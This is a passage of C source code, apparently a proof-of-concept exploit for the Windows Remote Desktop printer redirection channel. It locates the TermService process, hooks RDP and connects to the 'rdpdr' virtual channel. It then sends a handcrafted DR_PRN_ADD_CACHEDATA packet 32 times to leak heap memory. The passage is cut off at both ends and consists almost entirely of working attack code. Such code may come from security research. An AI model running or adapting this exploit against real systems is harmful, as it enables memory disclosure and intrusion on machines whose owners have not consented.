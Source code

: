 ```c
    }

    ENUM_SERVICE_STATUS_PROCESS *lpServiceStatus = (ENUM_SERVICE_STATUS_PROCESS *)lpBytes;
    for (int i = 0; i < servicesNum; i++)
    {
        if (!strcmp((char *)lpServiceStatus[i].lpServiceName, "TermService"))
        {
            pid = lpServiceStatus[i].ServiceStatusProcess.dwProcessId;
            printf("[+] Found TermService (PID %lu)\n", pid);
            free(lpBytes);
            return pid;
        }
    }

    printf("[x] Could not find TermService.\n");
    free(lpBytes);
    return 0;
}

int main(int argc, char *argv[])
{
    DWORD svchostPid;
    HANDLE hProcess;
    MEMORY_BASIC_INFORMATION info;
    SIZE_T bytesRead;
    LPVOID buffer;
    BYTE *leak;

    char leak_heap[] = {
        // DR_PRN_ADD_CACHEDATA
        0x52, 0x50, 0x43, 0x50,                         // Header
        0x01, 0x00, 0x00, 0x00,                         // EventId
        0x43, 0x4f, 0x4d, 0x32, 0x00, 0x00, 0x3a, 0x00, // PortDosName
        0x00, 0x00, 0x00, 0x00,                         // PnpNameLen
        0x2a, 0x00, 0x00, 0x00,                         // DriverNameLen
        0x2a, 0x00, 0x00, 0x00,                         // PrintNameLen
        0x00, 0x00, 0x00, 0x00,                         // CachedFieldsLen
        // DriverName
        0x42, 0x00, 0x72, 0x00, 0x6f, 0x00, 0x74, 0x00, 0x68, 0x00, 0x65, 0x00, 0x72, 0x00, 0x20, 0x00, 0x44, 0x00, 0x43, 0x00, 0x50,
        0x00, 0x2d, 0x00, 0x31, 0x00, 0x30, 0x00, 0x30, 0x00, 0x30, 0x00, 0x20, 0x00, 0x55, 0x00, 0x53, 0x00, 0x42, 0x00, 0x00, 0x00,
        // PrinterName
        0x42, 0x00, 0x72, 0x00, 0x6f, 0x00, 0x74, 0x00, 0x68, 0x00, 0x65, 0x00, 0x72, 0x00, 0x20, 0x00, 0x44, 0x00, 0x43, 0x00, 0x50, 0x00, 0x2d,
        0x00, 0x31, 0x00, 0x30, 0x00, 0x30, 0x00, 0x30, 0x00, 0x20, 0x00, 0x55, 0x00, 0x53, 0x00, 0x42, 0x00, 0x20, 0x00, 0x61, 0x62, 0x63, 0x64};

    hook_to_rdp();

    // Connect to RDPDR channel
    if (!connect_to_virtual_channel("rdpdr", 10, STATIC_CHANNEL))
    {
        return 1;
    }

    // Add Printer Cachedata to client registry, several times to increase probability of success
    for (int k = 0; k < 32; k++)
    {
        write_to_virtual_channel(leak_heap, sizeof(leak_heap));
        Sleep(200);
    }

```